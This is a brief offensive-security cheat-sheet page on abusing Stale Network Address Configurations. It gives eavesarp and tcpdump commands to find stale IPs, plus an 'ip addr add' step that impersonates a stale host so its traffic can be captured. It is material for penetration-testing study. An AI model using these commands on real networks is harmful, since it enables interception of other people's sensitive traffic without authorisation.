 ```yaml
---
description: Stale Network Address Configuration
---
```


# SNACs Abuse

* [https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)
* [https://github.com/arch4ngel/eavesarp](https://github.com/arch4ngel/eavesarp)
* [https://github.com/s0i37/net/blob/main/arp_snac.py](https://github.com/s0i37/net/blob/main/arp_snac.py)

Actively analyze ARP traffic and hunt for SNACs (Stale Network Address Configurations):

```
$ sudo python3 eavesarp.py capture -i eth0 -ar -dr [--blacklist 192.168.1.11]
```

If a SNAC if found (can be detected, for example, when a host has moved from one IP to another and its DNS A record not matching its DNS PTR record anymore) so that some application in the network is still trying to send sensitive data to the *stale* IP address (because it may simply be hard-coded in the app), an adversary can set an alias for their interface pretending to be that host with the *stale* IP and collect all the traffic intended for it:

```
# Check again with tcpdump
$ sudo tcpdump -nvv -i eth0 "src host <STALE_IP> and arp"

# Abuse it!
$ sudo tcpdump -nA -i eth0 "src host <STALE_IP> and (dst port 80 or dst port 443)"
Or
$ sudo tcpdump -nvv -i eth0 -s 65535 -w eavesarp.pcap "host <STALE_IP>"
$ sudo ip addr add <STALE_IP>/24 dev eth0

# Clean up
$ sudo ip addr del <STALE_IP>/24 dev eth0
```
